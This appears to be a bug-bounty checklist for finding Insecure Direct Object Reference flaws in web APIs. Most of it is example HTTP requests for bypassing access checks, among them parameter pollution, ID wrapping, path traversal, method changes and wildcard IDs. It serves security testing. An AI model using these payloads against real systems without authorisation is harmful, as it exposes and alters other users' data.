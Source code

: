 # IDOR_Checklist
IDOR hunting checklist
# Insecure Direct Object Reference (IDOR)

## Introduction
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## Where to find
- Usually it can be found in APIs.
- Check the HTTP request that contain unique ID, for example `user_id` or `id`

## How to exploit
- [ ] Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser HTTP/1.1
Host: example.com

Try this to bypass

GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...
```

- [ ] HTTP Parameter pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

- [ ] Add .json to the endpoint
```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...

Try this to bypass

GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...
```

- [ ] Test on outdated API Versions



| Initial Request     | Bypass Request |
|---------------------|----------------|
| POST /v1/GetData HTTP/1.1<br>Host: example.com<br>id=123 | POST /v2/GetData HTTP/1.1<br>Host: example.com<br>id=123 |




- [ ] Wrap the ID with an array.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}

Try this to bypass

POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}
```

- [ ] Wrap the ID with a JSON object
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}

Try this to bypass

POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}
```

- [ ] JSON Parameter Pollution.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```

- [ ] Try decode the ID, if the ID encoded using md5,base64,etc.
```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...

dmljdGltQG1haWwuY29t => victim@mail.com

```

- [ ] If the website using GraphQL, try to find IDOR using GraphQL.
```
GET /graphql HTTP/1.1
Host: example.com
...
```
```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...
```
- [ ] MFLAC (Missing Function Level Access Control)
```
GET /admin/profile HTTP/1.1
Host: example.com

Try this to bypass

GET /ADMIN/profile HTTP/1.1
Host: example.com
...
```

- [ ] Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...

Try this to bypass

GET /file?id=302
Host: example.com
...
```

- [ ] Change HTTP Method
```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...

Try this to bypass

POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```

- [ ] Path traversal
```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...

Try this to bypass

GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...
```

- [ ] Change request `Content-Type`
```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml

Try this to bypass

GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json
```

- [ ] Send wildcard instead of ID
```
GET /api/users/111 HTTP/1.1
Host: example.com

Try this to bypass

GET /api/users/* HTTP/1.1
Host: example.com

GET /api/users/% HTTP/1.1
Host: example.com

GET /api/users/_ HTTP/1.1
Host: example.com

GET /api/users/. HTTP/1.1
Host: example.com
```
- [ ] Try google dorking to find new endpoint


